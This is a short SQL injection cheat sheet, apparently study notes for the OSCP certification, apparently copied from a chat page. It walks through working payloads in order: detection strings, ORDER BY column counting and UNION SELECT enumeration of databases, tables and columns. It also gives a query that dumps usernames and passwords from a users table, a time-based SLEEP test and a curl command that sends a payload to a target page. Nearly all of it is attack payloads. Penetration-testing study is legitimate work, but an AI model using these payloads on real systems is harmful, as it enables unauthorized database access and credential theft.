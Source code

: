 ___


## **🛠 1. Detecting SQL Injection**

Test input fields, URL parameters, cookies, and headers.

**Boolean-based tests:**

sql

CopyEdit

`' OR '1'='1 --     -- should return valid results ' AND '1'='2 --    -- should return no results`

**Error-based tests:**

sql

CopyEdit

`'      -- single quote for syntax error "      -- double quote ')     -- closing parentheses`

---

## **📏 2. Find the Number of Columns**

sql

CopyEdit

`' ORDER BY 1 -- ' ORDER BY 2 -- ' ORDER BY 3 --`

Increase the number until it errors.  
Last working number = column count.

---

## **🎯 3. Identify Displayed Columns**

sql

CopyEdit

`' UNION SELECT NULL,NULL,NULL --`

Replace `NULL` one at a time with:

sql

CopyEdit

`'string'   -- to see if it’s displayed`

Example:

sql

CopyEdit

`' UNION SELECT 'abc',NULL,NULL --`

---

## **🛡 4. Extract DB Info**

**Database, User, Version:**

sql

CopyEdit

`' UNION SELECT database(), user(), version() --`

---

## **📚 5. List All Databases**

sql

CopyEdit

`' UNION SELECT schema_name, NULL, NULL    FROM information_schema.schemata --`

---

## **📂 6. List Tables in a DB**

sql

CopyEdit

`' UNION SELECT table_name, NULL, NULL    FROM information_schema.tables    WHERE table_schema='target_db' --`

---

## **📄 7. List Columns in a Table**

sql

CopyEdit

`' UNION SELECT column_name, NULL, NULL    FROM information_schema.columns    WHERE table_name='users' --`

---

## **🔓 8. Dump Data**

sql

CopyEdit

`' UNION SELECT username, password, NULL    FROM users --`

---

## **⏳ 9. Time-based Blind SQLi**

sql

CopyEdit

`' AND SLEEP(5) --`

If response is delayed, injection works.

---

## **🛠 10. Automating without SQLmap**

You can use **`curl` + `grep`** in Bash to automate step-by-step:

bash

CopyEdit

`curl "http://target/page.php?id=1' UNION SELECT database(),NULL,NULL-- -"`

---

## **💡 Tips for OSCP**

- Avoid automation tools like SQLmap.
    
- Use `curl`, `wget`, or **Burp Repeater** to speed up.
    
- Always comment out the rest of the query with `-- -` or `#`.
    
- If no output, try blind or time-based enumeration.




